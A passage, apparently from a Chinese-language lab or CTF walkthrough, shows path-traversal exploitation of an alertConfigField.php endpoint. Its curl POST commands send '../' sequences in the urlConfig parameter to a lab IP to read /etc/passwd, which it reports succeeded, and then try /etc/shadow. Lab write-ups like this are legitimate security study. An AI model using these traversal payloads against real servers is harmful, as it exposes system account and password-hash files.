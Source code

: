 发现urlConfig的提交方法为POST



利用curl发送POST请求

```
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' 192.168.23.137/administrator/alerts/alertConfigField.php
```

成功读取/etc/passwd

![image-20250310190950050](./assets/image-20250310190950050.png)



#### 尝试读取/etc/shadow

```
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/shadow' 192.168.23.137/administrator/alerts/alertCon
figField.php
```

![image-20250310191029002](./assets/image-20250310191029002.png)
